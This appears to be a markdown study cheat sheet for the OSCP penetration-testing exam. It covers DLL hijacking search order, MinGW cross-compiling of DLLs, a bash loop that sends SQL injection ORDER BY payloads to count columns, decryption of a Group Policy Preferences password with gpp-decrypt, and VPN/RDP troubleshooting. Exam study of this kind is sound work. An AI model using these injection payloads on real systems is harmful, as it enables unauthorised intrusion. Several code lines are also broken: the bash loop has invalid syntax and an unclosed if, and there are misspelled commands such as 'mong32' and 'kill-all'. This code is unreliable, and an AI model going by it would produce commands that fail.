 # Quick Tips for OSCP

#### DLL Hijacking - Search Order
1. Directory from which the application is loaded.
2. System directory.
3. 16-Bit system directory. 
4. Windows Directory.
5. Current Directory.
6. Directories listed in the %PATH% variable.

---

#### Cross Compile Code with MINGW
```bash
# cross compile regular code:
x86_64-w64-mingw32-gcc name_of_prg.c -o name_of_binary.exe
# turn the output into a dynamically linked loader (DLL):
x86_64-w64-mong32-gcc name_of_prg.cpp --shared -o name_of_DLL.dll
```

---

#### SQL Injection - Get Number of Columns in Table
```bash
#!/usr/bin/bash


for i in $(seq 1 10); do
	resp = curl -X POST http://IP/ --data "PARAMETER=' ORDER BY $i-- //";
	# url encode the paramter.
	if [[$resp | grep -i "unknown column"]]; then
	break
	done;

```
---

#### GPP-Decrypt (Kali)
Any passwords that are encrypted using the Group Policy Preferences on Windows, have a common decryption key.

These passwords can be decrypted using the `gpp-decrypt` command line tool on Kali.

```bash
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
# output
kali@kali:~$ P@$$w0rd
```
---

#### Fixing RDP Errors (OFFSEC)
```bash
sudo ifconfig tun0 mtu 1500 up # value from 700 to 1250 & 1500
sudo kill-all -w openvpn # replace service name as per convenience.
```

- Delete all "openvpn" files and generate a new one.
- Kill all openvpn processes.
- Start a new vpn connection on through tun0 and change it's MTU value from 1500 all the way down to 700 to see what works.
- Once RDP is successful, go into the machine and press CTRL + SHIFT + ESC and start Explorer.exe.
- Restart the Windows Explorer service from the task manager console.


